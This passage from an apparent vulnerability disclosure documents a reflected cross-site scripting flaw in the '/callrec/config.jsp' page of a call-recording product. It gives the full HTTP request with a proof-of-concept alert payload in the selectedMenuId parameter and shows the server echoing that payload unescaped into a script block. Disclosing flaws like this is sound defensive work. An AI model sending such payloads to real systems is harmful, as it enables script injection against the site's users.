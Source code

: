 ![](Zoom-XSS(6)2.png)

### XSS(7) - Reflected XSS in “/callrec/config” page via direct JS injection
Request:
```
GET /callrec/config.jsp?selectedModule=drivers&selectedMenuId='-alert('selectedMenuId')-'&selectedMenuOption=config/specified/drivers/cz_zoom_callrec_driver_genesys/view.jsp&specifiedConfiguration=genesysDriver HTTP/1.1
Host: xxx.xxxxxxx.net
Cookie: JSESSIONID=4D***TRUNCATED***39
```

Response:
```
HTTP/1.1 200 OK
Date: Mon, 28 Oct 2019 09:13:10 GMT
Server: Apache
Content-Type: text/html;charset=utf-8
Vary: Accept-Encoding
Content-Length: 24468

***TRUNCATED***

/** Show the menu for the selected module.  **/
		function showSelectedModuleMenu() {
		var menuId = ''-alert('selectedMenuId')-'';
setMenuContent(menuId);
document.getElementById("drivers").className = "selected";
		}
	</script>

***TRUNCATED***
```
